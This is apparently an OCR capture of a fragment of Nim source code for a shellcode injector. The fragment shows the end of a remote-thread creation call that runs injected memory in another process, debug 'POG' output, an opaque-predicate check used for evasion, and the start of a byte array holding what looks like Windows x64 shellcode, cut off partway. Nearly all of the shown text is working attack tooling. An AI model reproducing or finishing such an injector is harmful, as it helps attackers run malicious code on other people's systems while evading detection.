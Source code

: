```Nim

processHandle,

NULL,

0,

cast[LPTHREAD_START_ROUTINE](memPointer),

NULL,

0,

NULL

)

# POG when it works

echo threadHandle

  

echo "[*] POG"

  
  
  
  
  

# Kick off the main module

when isMainModule:

if isPrimeOpaque(1013):

var buf: array[296, byte] = [

byte 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,

0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,

0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,

0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,

0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,

0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,

0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,

0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,

0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,

0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,

0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,

0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,

```